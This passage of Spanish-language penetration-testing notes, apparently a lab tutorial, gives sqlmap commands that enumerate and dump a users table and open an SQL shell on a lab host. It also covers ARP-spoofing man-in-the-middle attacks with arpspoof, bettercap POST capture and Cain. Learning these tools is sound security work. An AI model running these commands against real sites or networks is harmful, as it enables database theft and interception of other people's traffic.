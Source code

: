 

##### sqlmap

```bash
sqlmap -u "http://10.1.1.9/sqli/xample1.php?name=root"
sqlmap -u "http://10.1.1.9/sqli/xample1.php?name=root" --dbs
sqlmap -u "http://10.1.1.9/sqli/xample1.php?name=root" -D exercices --tables
sqlmap -u "http://10.1.1.9/sqli/xample1.php?name=root" -D exercices -T users --columns
sqlmap -u "http://10.1.1.9/sqli/xample1.php?name=root" -D exercices -T users --dump
sqlmap -u "http://10.1.1.9/sqli/xample1.php?name=root" --sql-shell
```



## vulnerabilidades en red

### Análisis de trafico 

Existen diferentes programas con los que podemos analizar el trafico en la red, el mas conocido  **wireshark** que analiza todo el trafico, también existen otros como **network miner** que de forma pasiva va extrayendo datos de los paquetes que van circulando por la red y mostrándolos de forma ordenada.



### intercepción de trafico *(man in the midle)*

De forma **manual** podemos ponernos entre medio de la victima y el router para interceptar todo el trafico de un dispositivo.

Siempre que estemos en una red local podemos indicar que nuestro dispositivo pueda hacer pas forwarding y seguidamente mediante `arpspoof` indicar a un host que nosotros somos el router.

```bash
echo "1" > /proc/sys/net/ipv4/ip_forward
# prg		interficie	victima	router
arpspoof -i eth0 -t 10.1.1.32 10.1.1.1
```

> realmente lo que hace `arpspoof` es mandar a la victima paquetes de que mi mac es la perteneciente va la ip del router.



De forma **automática** podemos utilizar `bettercap` que se encarga de realizar todo el proceso automáticamente, además de tener funcionalidades extra. 

```bash
arp-scan 10.1.1.0/24 # ver numero de dispositivos en una red
bettercap --help
bettercap -X # man in de middle a todos los dispositivos de la red
bettercap -T 10.1.1.32 --proxy -P POST # solo una victima
```



Desde windows existen programas como **cain** que podemos hacer el *man in de middle* fácilmente. Es un programa portable que solo tendrás que configurar la sección `apr` que será entre que dispositivos quieres estar y listo.

